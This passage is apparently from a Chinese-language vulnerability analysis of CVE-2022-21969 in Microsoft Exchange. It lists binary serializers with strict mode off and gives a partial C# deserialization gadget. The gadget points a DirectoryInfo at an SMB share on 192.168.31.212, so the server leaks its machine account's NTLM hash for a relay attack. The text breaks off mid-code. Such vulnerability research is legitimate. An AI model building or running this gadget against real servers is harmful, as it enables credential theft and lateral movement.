 ```csharp
AzureRedisCacheBase strictMode = False
AntMillLibCommon strictMode = False
SessionStatistics strictMode = False
AccessControlList strictMode = False
DataLayerSerializedHelper strictMode = False
ProcessManagerControlObject strictMode = False
EmailIndexer strictMode = False
AgentSubscription strictMode = False
QueueViewerSerialization strictMode = False
MetaIpListDataBlob strictMode = False
SerializeFormatter strictMode = False
DbParser strictMode = False
SqlTypeHelper strictMode = False
BinarySerialize strictMode = False
MultiValuedProperty strictMode = False
QueueClient strictMode = False
MessageResubmissionComponent strictMode = False
```
可以看到，只有11个值会把`StrictMode`设置为`True`。

所以我们主要分析`ExchangeBinaryFormatterFactory.CreateBinaryFormatter` 找到调用的输入点

![image](../img/CVE-2022-21969/5jHejh1hJ5eE2A4JPuaAtG-ypL8Aiph-GPG5SPn1z2Y.png)

可以看到是能够找到很多的，所以目前我们要找到一个能够触发反序列化输入的点，就能够造成`XXE`攻击。

但是对于`.Net` 大于`4.5.2`的版本，默认情况下`XmlLoad`是安全的，所以对于最新的`Exchange` 使用`XXE` 是无效的。不过我们可以使用`DirectoryInfo` 这个类，在内部向外发出`SMB` 请求，从而获得服务器机器账户的`NTLM` ，然后发起中继攻击。

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.Serialization.Formatters.Binary;
using System.IO;

namespace CVE_2022_21969_Gadget
{
    internal class Program
    {
        static void Main(string[] args)
        {
            DirectoryInfo info = new DirectoryInfo(@"\\192.168.31.212\~shares");
            FileStream fs = new FileStream("Binary.dat", FileMode.Create);

            BinaryFormatter formatter = new BinaryFormatter();
            formatter.Serialize(fs, info);

```